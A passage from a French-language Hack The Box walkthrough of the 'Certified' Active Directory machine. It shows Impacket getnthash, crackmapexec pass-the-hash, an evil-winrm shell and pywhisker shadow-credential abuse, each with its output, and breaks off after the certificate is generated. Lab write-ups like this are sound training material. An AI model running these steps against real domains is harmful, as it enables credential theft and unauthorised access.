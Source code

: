 $ KRB5CCNAME=management_svc.ccache ./getnthash.py CERTIFIED.HTB/management_svc -key 37b5b0b8873bb21cdf40daad3dcf408af0be706f772bf52dda96dbecfa00f041
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a<...>4

$ crackmapexec smb 10.10.11.41 -u "management_svc" -H a<...>4
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\management_svc:a<...>4
{{< /highlight >}}

Ensuite, nous pouvons utiliser evil-winrm pour obtenir un shell sur la machine via l'utilisateur *management_svc*.
Même si le port n'est pas indiqué comme ouvert sur le scan initial de nmap, il est ouvert.\
Finalement, nous pouvons récupérer le hash pour la partie utilisateur.
{{< highlight go "hl_lines=1" >}}
$ evil-winrm -i 10.10.11.41 -u management_svc -H a<...>4
<...>
*Evil-WinRM* PS C:\Users\management_svc\Desktop> dir
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/2025   2:54 PM             34 user.txt
{{< /highlight >}}

## Root
### management_svc -> ca_operator

Maintenant que *management_svc* est compromis, nous pouvons observer dans BloodHound que *ca_operator* peut aussi être compromis en utilisant la même technique abusant cette fois-ci de la permission ```GenericAll``` que *management_svc* a sur *ca_operator*.
![](BH_ca_operator.png)

{{< highlight go "hl_lines=1 17 29" >}}
$ ./pywhisker.py -d "certified.htb" -u "management_svc" -H "a<...>4" --target "ca_operator" --action "add"
[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 174934b2-1249-c39a-bc89-5b4b5c01b784
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: zlax30FB.pfx
[+] PFX exportiert nach: zlax30FB.pfx
[i] Passwort für PFX: CiktaI0YO7y9IV9T9mnM
[+] Saved PFX (#PKCS12) certificate & key at path: zlax30FB.pfx
[*] Must be used with password: CiktaI0YO7y9IV9T9mnM
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
